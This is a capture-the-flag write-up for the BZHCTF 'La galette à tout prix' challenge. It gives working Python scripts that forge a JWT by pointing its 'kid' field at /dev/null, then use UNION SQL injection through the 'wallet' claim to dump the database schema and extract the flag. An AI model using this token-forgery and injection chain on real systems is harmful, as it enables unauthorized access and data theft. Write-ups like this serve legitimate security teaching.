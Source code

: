 # La galette à tout prix
We are given a JWT. It contains a field `kid` which is the name of the file containing the key to sign the JWT :  
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6IiciLCJ3YWxsZXQiOltdLCJraWQiOiIuL3NlY3JldC5rZXkifQ.sPF55gkdqUQqAfkeBFtQRWOZgh_4S2jaIEJz2FcUsp8

header : {"typ":"JWT","alg":"HS256"}
payload : {"username":"'","wallet":[],"kid":"./secret.key"}
```

If we edit `kid` with a file that we already know the content (such as `/dev/null`) we can sign any JWT.
```
import jwt

FILENAME = "/dev/null"
key = open(FILENAME).read(32)

jwt.encode({"username":"Monsieur Rennes Whisky","wallet":[f"2 union {sql}"],"kid":FILENAME}, key=key, algorithm="HS256")

# it provides us a valid JWT :)
```

We then discover that there is an SQL injection with `wallet`. So let's dump the database.
```py
import jwt
import requests
import json

FILENAME = "/dev/null"
key = open(FILENAME).read(32)

sql = "select sql,2 from sqlite_master"

cookies = {"user":jwt.encode({"username":"Monsieur Rennes Whisky","wallet":[f"2 union {sql}"],"kid":FILENAME}, key=key, algorithm="HS256")}
r = requests.get("https://la-galette-a-tout-prix.ctf.bzh:21000/wallet", cookies=cookies, verify=False)
for k,val in enumerate(json.loads(r.text)):
    print(k, val["name"])
```

Output :
```
0 CREATE TABLE galette(id integer primary key autoincrement, name text, description text)
1 CREATE TABLE precommande(id integer primary key autoincrement, id_galette integer, personal_message text)
2 CREATE TABLE sqlite_sequence(name,seq)
3 CREATE TABLE users(id integer primary key autoincrement, username text, password text)
```

The flag is in `precommande.presonnal_message`.
Here is the full script :
```py
import jwt
import requests
import json

FILENAME = "/dev/null"
key = open(FILENAME).read(32)

# sql = "select sql,2 from sqlite_master"
"""
0 CREATE TABLE galette(id integer primary key autoincrement, name text, description text)
1 CREATE TABLE precommande(id integer primary key autoincrement, id_galette integer, personal_message text)
2 CREATE TABLE sqlite_sequence(name,seq)
3 CREATE TABLE users(id integer primary key autoincrement, username text, password text)
"""

sql = "select personal_message,2 from precommande"

cookies = {"user":jwt.encode({"username":"Monsieur Rennes Whisky","wallet":[f"2 union {sql}"],"kid":FILENAME}, key=key, algorithm="HS256")}
r = requests.get("https://la-galette-a-tout-prix.ctf.bzh:21000/wallet", cookies=cookies, verify=False)
for k,val in enumerate(json.loads(r.text)):
    print(k, val["name"])

# BZHCTF{u_st34l_th1s_b34ut1ful_g4l3tt3_s4uc1ss3!!}
```

